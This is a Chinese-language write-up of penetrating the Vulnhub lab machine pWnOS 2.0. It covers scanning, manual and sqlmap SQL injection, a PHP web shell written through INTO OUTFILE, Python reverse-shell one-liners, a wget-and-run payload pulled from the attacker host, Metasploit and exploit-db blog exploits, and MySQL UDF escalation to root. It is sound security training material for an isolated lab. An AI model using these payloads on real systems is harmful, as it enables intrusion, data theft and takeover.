

# Vulnhub靶机渗透总结之Pwnos2.0 - 先知社区

Vulnhub靶机渗透总结之Pwnos2.0

- - -

## 一、基本信息：

pwnos2.0，Vuluhub简单难度靶机。LAMP架构网站，是一个SQLi与CMS渗透的样本,手动注入和sqlmap传shell均有呈现，后续也尝试了框架漏洞的利用的尝试。从利用选择到反弹shell获得，从信息枚举到数据库凭据的获取，都是标准的攻击链。信息搜集的需要些技巧不能归结为运气，借此靶机总结偶然的信息搜集技巧才有价值，这台靶机值得去深入尝试。

| 名称  | 说明  |
| --- | --- |
| 靶机下载链接 | [https://www.vulnhub.com/entry/pwnos-20-pre-release,34/](https://www.vulnhub.com/entry/pwnos-20-pre-release,34/) |
| 作者  | [pWnOS](https://www.vulnhub.com/author/pwnos,6/) |
| 发布日期 | 4 Jul 2011 |
| 难度  | easy |
| 靶机  | ip：10.10.10.100 |
| 攻击机（kali） | ip：10.10.10.23 |

需要修改攻击机的地址（IP、网关、子网掩码）才能访问靶机。

| ip  | Netmask | Gateway |
| --- | --- | --- |
| 10.10.10.100 | 255.255.255.0 | 10.10.10.15 |

## 二、信息收集

### 主机发现、端口扫描、服务枚举、脚本漏扫（nmap）

```plain
nmap 10.10.10.0/24 -sn --min-rate 1000
nmap 10.10.10.100 -sT -p- --min-rate 1000 -oA nmap_result/port_scan
nmap 10.10.10.100 -sU --top-ports 10 -oA nmap_resule/portudp_scan
nmap 10.10.10.100 -p $port -sT -sV -O -sC -oA nmap_result/server_info
nmap 10.10.10.100 -p $port --script=vuln -oA nmap_result/vuln_info

port=$(grep open nmap_result/port_scan.nmap|grep open|awk -F '/' '{print $1}'|paste -sd ',')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227163820-4a3d311a-a493-1.png)

> 开放端口 tcp22，80  
> 22/tcp open ssh OpenSSH 5.8p1  
> 80/tcp open http Apache httpd 2.2.17 ((Ubuntu))

## 三、web渗透

### 目录扫描（dirb）指纹识别（whatweb）

```plain
dirsearch -u "http://10.10.10.100" -o dirsearch_info
gobuster dir -u http://10.10.10.100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -o gobuster_info
dirb http://10.10.10.100 -o dirb_info

whatweb "http://10.10.10.100/blog/"
```

> /blog 内容管理系统、博客，  
> /info 显示了了phpinfo()内容，  
> /includes 文件列表，/images 文件列表  
> /blog 博客页由Simple PHP搭建。MetaGenerator\[Simple PHP Blog 0.4.0\], PHP\[5.3.5-1ubuntu7\]

### PORT 80

[http://10.10.10.100](http://10.10.10.100/) “欢迎来到内网”（登录、注册）  
[http://10.10.10.100/blog](http://10.10.10.100/blog) 内容管理系统（登录、搜索、内容提交）

<1>注册后登录会一直显示 "Logging in...."，不排除可能有waf这种机制存在，很可能某些操作会被判定为恶意行为然后被block掉

<2>经过测试，发现首页的登录功能，用户名单引号会报错，使用万能密码admin' or '1'#可以登录，该页面存在sql注入。直接使用sqlmap

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227163834-525673fc-a493-1.png)

### sqlmap 后门上传

<1>注入点测试 拿数据

```plain
//POST注入
sqlmap -u 'http://10.10.10.100/login.php' --data='email=admin&pass=admin&submit=Login' --level=5 --risk=3 --batch -D ch16 -T users --dump
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227163842-5761ff9c-a493-1.png)

> 从ch16.users获取到邮箱和密码 admin@isints.com:killerbeesareflying  
> mysql.user可以获取到两个凭据，解密不出

<2>拿到有账号密码尝试网站登录。  
结果只有一个应该就是网站登录的账号密码，但以ch16.users拿到的用户凭据登录网站是提示WAF拦截，也不能ssh，不是这个方向

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227163853-5d83b6a4-a493-1.png)

<3> osshell 后门生成  
遇到了个问题，--os-shell 成功生成了后门上传链接/tmpuouvt.php，sqlmap的后门文件tmpbljfd.php也成功上传，[http://10.10.10.100:80/tmpbljfd.php也可以访问。但返回的](http://10.10.10.100/tmpbljfd.php%E4%B9%9F%E5%8F%AF%E4%BB%A5%E8%AE%BF%E9%97%AE%E3%80%82%E4%BD%86%E8%BF%94%E5%9B%9E%E7%9A%84) osshell 输入命令实际并未执行且没有输出。

```plain
--os-shell
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227163905-64d9243e-a493-1.png)

<4>尝试上传php-reverse-shell（其他简短的反向shell得用5的方法），可以上传到暴露出的目录（/var/www，/var/www/includes，/var/www/blogs/images）或者在nmap生成的后门链接处上传，然后浏览器访问或点击执行反弹shell。

```plain
--file-write='/home/wsec/0X0CpWnOS2/php-reverse-shell443.php' --file-dest='/var/www/php-reverse-shell443.php'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227163915-6a90f82a-a493-1.png)

> 拿到www-data权限

<5>此外，曾经也遇到过类似问题，解决方法是换一种姿势，sqlmap上传get2255.php，浏览器访问/get2255.php，让靶机在tmp下wget反弹shell后执行，就可以监听到反弹shell

```plain
//上传shell
sqlmap -u 'http://10.10.10.100/login.php' --data='email=admin&pass=admin&submit=Login' --level=5 --risk=3 --file-write='/home/wsec/0X0CpWnOS2/get2255.php' --file-dest='/var/www/get2255.php'

//shell2255.py
export RHOST="10.10.10.23";export RPORT=2255;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'

//get2255.py
<?php system('cd /tmp;wget 10.10.10.23:9000/shell2255.py;chmod +x shell2255.py;./shell2255.py')?>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227163925-70e7c1d6-a493-1.png)

> 拿到www-data权限

## 四、二次收集

### 提权信息收集、漏洞探针（LinEnum.sh、linux-exploit-suggester.sh）

```plain
./LinEnum.sh -r linenum_info -e /tmp/ -t
./linux-exploit-suggester.sh -g
```

> 从枚举的一些信息中，列出了目标靶机版本信息、用户信息、权限信息、环境信息、第三方软件信息，进程信息等

### 数据库配置文件

<1>www-data权限下，从`/var/www/mysqli_connect.php` 发现数据库配置文件 有连接数据库用户名密码`root:goodday`

<2>尝试登录mysql但连接失败，原因是密码错误，但网站却正常运行，可以推测数据库的连接并不是用这个文件，尝试寻找。

<3>搜寻到另外一个数据库配置文件`/var/mysqli_connect.php`，其中连接信息 `root:root@ISIntS`。

```plain
mysql -uroot -pgoodday （失败）
find / -name mysqli_connect.php 2>/dev/null
mysql -uroot -proot@ISIntS （成功）
```

> root:goodday  
> root:root@ISIntS  
> 数据库虽然能登录但未找到更多有价值的信息

## 五、密码碰撞（crackmapexec）

| 字典  | 说明  |
| --- | --- |
| user\_list | /etc/passwd里的一些、一些sqli拿到的用户名 |
| pass\_list | 数据库配置文件连接信息、sqli拿到的密码hash解密 |

```plain
crackmapexec ssh 10.10.10.100 -u user_list -p pass_list --continue-on-success
 ssh root@10.10.10.100
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227163938-7896b2fc-a493-1.png)

> 其中root 账号认证成功，root ssh密码是数据库配置文件记录的数据库连接密码。  
> root:root@ISIntS。root用户ssh 登录成功，至此靶机渗透结束。

## 六、其他

### <1>注入点分析、提示WAF拦截原因

`login.php`（email参数处），可以手动添加 echo 语句查看数据库查询结果与遍历结果。  
[参考文章 preg\_match()函数](https://www.php.net/manual/zh/function.preg-match)

```plain
sql语句： "SELECT * FROM users WHERE email='".$_POST['email']."' AND pass='".SHA1($_POST['pass'])."' AND active IS NULL";

登录后显示waf拦截的原因，$_POST['email'] 匹配到了 “admin@isints.com"
相当于if（ $_POST['email'] == "admin@admin.com"）
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227163949-7efc53c2-a493-1.png)

### <2>SQLi（手工注入）

SQL注入测试点：email参数。[http://10.10.10.100/login，POST提交](http://10.10.10.100/login%EF%BC%8CPOST%E6%8F%90%E4%BA%A4)  
email=1234&pass=1234&submit=Login&submitted=TRUE

<1> 单引号。

```plain
email=admin'&pass=1234&submit=Login&submitted=TRUE （报错：Query: SELECT * FROM users WHERE email='admin'' AND pass='356a192b7913b04c54574d18c28d46e6395428ab' AND active IS NULL

得出结论：sql语句大概是select * from users where email='' and pass='' and ?。
```

<2>尝试构建使得不报错。

```plain
#注释掉后面的。
email=admin' #（不报错）
```

<3>判断能否恶意修改。

```plain
email=admin' or '1'#  (登录成功)
得出结论：sql语句能被恶意修改带入数据库执行
```

<4> 枚举，判断数据库查了几列数据用于后面union拿数据。

```plain
email=admin' union select 11,22,33,44,55,66,77,88 #
email=admin' union select 11,22,33,user(),55,66,77,88 #
(回显结果：
database() ch16，
user()  root@localhost)
@@version   5.1.54
```

<5>查库

```plain
email=admin' union select 11,22,33,group_concat(schema_name),55,66,77,88 from information_schema.schemata#
http://kioptrix3.com/gallery/gallery.php?id=666 union select 11,22,group_concat(schema_name),44,55,66 from information_schema.schemata#
（回显结果： information_schema,ch16,mysql）
```

<6>查表

```plain
email=admin' union select 11,22,33,group_concat(TABLE_NAME),55,66,77,88 from information_schema.TABLES where TABLE_SCHEMA=database()#
（回显结果：users）
```

<7>查users表的字段

```plain
?id=666 union select 11,22,group_concat(column_name),44,55,66 from information_schema.COLUMNS where TABLE_SCHEMA=database() and TABLE_NAME='gallarific_users' #
(回显结果：user_id,first_name,last_name,email,pass,user_level,active,registration_date)
```

<8>查内容

```plain
email=admin' union select 11,22,33,group_concat(concat_ws(':',email,pass)),55,66,77,88 from ch16.users#
（回显结果：admin@isints.com:c2c4b4e51d9e23c02c15702c136c3e950ba9a4af）
（解密后为 killerbeesareflying）
```

结果只有一个应该就是网站登录的账号密码，但以ch16.users拿到的用户凭据登录网站会提示WAF拦截。mysql.user可以获取到两个凭据，但解密不出

> 从ch16.users获取到邮箱和密码 admin\\@isints.com:killerbeesareflying

### <3>SQLi 文件读写 反弹shell

<9>发现可以`load_file` 读取本地文件

```plain
email=admin' union select 11,22,33,load_file('/etc/passwd'),55,66,77,88 #
```

<10> `/var/www`写入文件`shelltest.php` 内容为一句话，需要注意的是所导出的文件名一定要是网站中不存在的，不然也不会成功

```plain
email=' union select 11,22,33,"<?php system($_POST['x']);?>",55,66,77,88 into outfile '/var/www/shell4.php'#&pass=1234&submit=Login&submitted=TRUE
```

<11>验证`outfile`是否成功，发现成功写入

```plain
email=admin' union select 11,22,33,load_file('/var/www/shell4.php'),55,66,77,88 #
```

<12>python反弹shell成功

```plain
export RHOST="10.10.10.23";export RPORT=2233;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227164015-8ec31bba-a493-1.png)

> 拿到www-data权限

### <4>Simple PHP 框架漏洞利用（exp）

1.  基于`whatweb`的识别，漏洞库找该cmd的exp
2.  [Simple PHP Blog 0.4.0 - Multiple Remote s - PHP webapps Exploit|1191.pl](https://www.exploit-db.com/exploits/1191)
3.  用生成新用户名密码`wsec/wsec`登录`/blog`，可以上传反弹shell 到 `/blog/images`
    
    ```plain
    searchsploit Simple PHP Blog 0.4.0 -m 1191
    ./1191.pl -h http://10.10.10.100/blog -e 2
    ./1191.pl -h http://10.10.10.100/blog -e 3 -U wsec -P wsec
    ```
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227164023-93a10a02-a493-1.png)

### <5>Simple PHP 源码收集、漏洞利用（MSF）

1.  此外`/blog`网页源码可以发现站点源码地址为`[sourceforge.net/projects/sphpblog/](https://sourceforge.net/projects/sphpblog/)`，可以使用msf进行利用
2.  创建了一个新用户名密码 `D7fAjm:LB0oXg`，可登录`/blog`上传反弹shell到`/images`
    
    ```plain
    msfconsole -q -x 'use exploit/unix/webapp/sphpblog_file_upload;set rhost 10.10.10.100;set uri /blog;run'
    ```
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227164033-9931c2b8-a493-1.png)

### <6> UDF 提权

1、www-data权限下，发现 mysql 程序以root身份运行，并发现两个数据库配置文件`mysqli_connect.php`，其中/var下目录找到的数据库登录凭据是可以成功登录数据库的

```plain
ps -ef | grep mysql
cat /var/www/mysqli_connect.php
cat /var/mysqli_connect.php


mysql -uroot -proot@ISIntS
mysql> select @@version;
mysql> show variables like '%plugin%';
mysql> show variables like '%compile%'; 
mysql> select * from mysql.func;

whereis lib_mysqludf_sys.so
whereis lib_mysqludf_sys_32.so
whereis lib_mysqludf_sys_64.so
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227164043-9f0aba0a-a493-1.png)

2、信息整理。  
导入导出权限查看（secure\_file\_priv为空，导入导出文件无限制）  
mysql架构信息查看（x86\_64）  
plugin目录位置（/usr/lib/mysql/plugin）

```plain
//secure_file_priv 为 NULL ，表示限制 mysqld 不允许导入导出文件，此时无法提权
//secure_file_priv 为 /tmp/ ，表示限制 mysqld 的导入导出文件只能发生在 /tmp/ 目录下，此时无法提权
//secure_file_priv 没有值，表示不对 mysqld 的导入导出文件做限制，此时可提权
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227164051-a3ed050a-a493-1.png)

3、由于靶机中未找到 udf 库，我们可在msf中找到对应版本（lib\_mysqludf\_sys\_64.so）。开启http服务将udf库文件摆渡到靶机上。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227164058-a875b5e0-a493-1.png)

4、创建表，将文件内容写到表中。将表中数据，写到plugin目录，自定义一个文件名，而后创建恶意函数sys\_eval，利用函数，获得一个root权限。

```plain
mysql> select data from tmp into dumpfile"/usr/lib/mysql/plugin/udf64.so";
mysql> create function sys_eval returns string soname 'udf64.so';
myssql> select sys_eval('whoami');
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227164106-ad117dfa-a493-1.png)

5、而后可以给系统某个命令（例如find命令）添加suid权限，进行suid提权。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227164113-b12ad86e-a493-1.png)

> 拿到root权限

### <7>AWVS扫描

存在：xss、敏感信息泄露（phpinfo），sql注入

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227164121-b5dc3fb0-a493-1.png)

## 总结

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227164224-db55da58-a493-1.png)

1.  从端口80看到是一个类似cms架设的网站，简单测试了登录功能发现存在注入，使用sqlmap获取到了数据库的一个登录凭据，使用该凭据尝试登录网站与ssh均无效，则尝试往目录爆破拿到的文件列表中写入shell，成功上传并收到监听，拿到www-data权限，获得初始立足点。
2.  发现mysqld以高权限运行，思路是从站点的配置信息中搜寻数据库登录凭据并登录数据库，而后进行udf提权，但失败了。（从/var/www拿到的数据库配置文件无法登录mysql，而后利用该在整个系统中进行搜索到其上级目录也有同名字的文件，其中也有mysql连接密码，使用该密码可以成功登录mysql。）
3.  一般来说接下来可以从LinEnum脚本的收集来分析其他方面提权的可能，不然内核提权将会是最后的手段。在此之前，因为收集到了一些密码，则尝试密码碰撞，通过对用户列表的用户进行比对，把数据库配置文件中搜集到的两个的密码构造了一个简易字典，使用cme进行密码碰撞。结果root密码竟然是数据库的登录密码。成功ssh登录root。

反思：

1.  安全运维人员可能将多个密码设置相同的，不要多个账号都设置相同的密码。
2.  广度优先的意识，从其他途径切入可能更容易拿到初始立足点，如框架漏洞利用
3.  需要随时盘点获得的信息，并对其进行判断，重要的是思路的拓展和细节的把控，即使走不通的也有其中的尝试和思考。

## 技巧

1.  sqlmap进行文件写入时会生成一个文件上传后门链接，如果--os-shell后门文件无法使用，可利用该后门上传处上传自己的shell
2.  通过你了解的sql和php开发习惯，探测他的一些搜索的交互行为，可能会出发报错或更进一步的行为，综合这些信息进行判断。小则可以判断出后台所使用的框架，多则暴露sql错误信息。
3.  比较简陋的界面，一般用的不是框架开发而是自行开发，这种有问题的可能性较大。内容管理系统多数都会有数据库配置文件，小则可以看到配置信息，多则可以使用密码撞击获得更高权限。
4.  拿到一个密码，既要考虑爆破的成本，又要明白错过的损失，都是一个概率问题尤其是在实际攻防中。
5.  这篇博客更多的意义是记录我个人在学习过程中的知识。由于笔者水平有限，本文的写作多借鉴于以下 文章，但也不乏创新思路点。对于靶机渗透过程的技巧，勉强达到靶机要求的合格水平，各位若有其他新颖独特的思路，还望不吝赐教，多多交流。

参考文章:  
[php中函数禁用绕过的原理与利用 - 知乎](https://zhuanlan.zhihu.com/p/340060797)  
[\# pWnOS 2 (SQL Injection)](https://blog.g0tmi1k.com/2012/09/pwnos-2-sql-injection/)
